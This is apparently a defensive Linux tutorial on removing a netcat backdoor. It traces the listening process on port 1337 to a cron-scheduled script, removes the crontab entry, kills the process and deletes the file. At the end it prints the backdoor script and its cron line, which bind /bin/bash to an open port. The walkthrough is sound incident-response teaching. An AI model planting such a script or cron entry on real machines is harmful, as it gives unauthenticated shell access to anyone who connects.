 In order to find and remove these backdoors from the inside:
1. Figure out which process is listening on the backdoor port: 
    * `netstat -tulpn | grep 1337`
    * `tcp    0    0 0.0.0.0:1337    0.0.0.0:*    LISTEN    3652/nc`
    * in this case 3652 is the process id. Now that we have the process ID, we can find out where it came from.
2. Figure out how the process is being run:
    * Now that we have a process ID, we could simply kill the process. However, there are two reasons we should do more investigating first:
        1. Killing the process would make it harder to track it down. The running process provides clues to its location. With that said, you may want to somehow block access to that machine while you investigate, if you are running live.
        2. If you were to kill this particular process, you would be surprised to discover the backdoor running again less than a minute after you killed it.
    * We can trace a process using the process tree:
        * `ps -eFH` lists processes running on the system in a tree form -- showing which processes own which other processes.
        * `ps -eFH | grep -B5 <the process id of nc>` will show us the line of the `nc` process that is actually listening on the port, as well as 5 lines before it, enabling us to see the tree leading to that process.
        * The output from this command tells us that netcat is being run by the script `/usr/sbin/backdoor`, which was ultimately run by `/USR/SBIN/CRON`
            ```
            root     16142  2520  0 14614  1556   0 20:44 ?        00:00:00     /USR/SBIN/CRON
            rose     16143 16142  0  1047   588   0 20:44 ?        00:00:00       /bin/sh -c /usr/sbin/backdoor
            rose     16144 16143  0  2690  1388   0 20:44 ?        00:00:00         /bin/bash /usr/sbin/backdoor
            rose     16149 16144  0  1549   724   0 20:44 ?        00:00:00           nc -l -p 1337 -e /bin/bash
            ```
        * Since cron is the task scheduling system on linux, we know that it is a scheduled task that is triggering the backdoor. We also know where the backdoor is located. And, since the owner of the backdoor processes is `rose`, we can guess that it is rose's crontab that is scheduling the backdoor (If you want to learn more about cron or scripting, look at the resources section).
    * So let's remove that line from rose's crontab:
        * `crontab -u rose -e`
        * This line: `* * * * * /usr/sbin/backdoor` tells the scheduler to run the program `/usr/sbin/backdoor` every minute.
        * remove that line from the crontab.
        * make sure it's been removed: `crontab -u rose -l`
    * Now we can kill the process and it will stay dead.
        * `kill -s SIGKILL <the process id goes here>`
    * Now remove the backdoor file:
        * `rm /usr/sbin/backdoor`
3. Verify that it's gone:
    * no more listening `netstat -tulpn | grep 1337` ( should give no output )
    * files are gone `cat /usr/sbin/backdoor` (should say "no file or directory")

As a fun aside, here's an explanation of the backdoor:
    
```bash
## It is a script:
#!/bin/bash

## This is the command it uses to check that the script is running:
isOn=`netstat -tln | grep ':1337'| wc -l`

## The if statement checks the result of the isOn command -- if it is zero, then
if [ $isOn == "0" ]
then
  ## It starts a netcat command that enables data sent to the 1337 port to give access to bash (the command line)
  nc -l -p 1337 -e /bin/bash
fi
```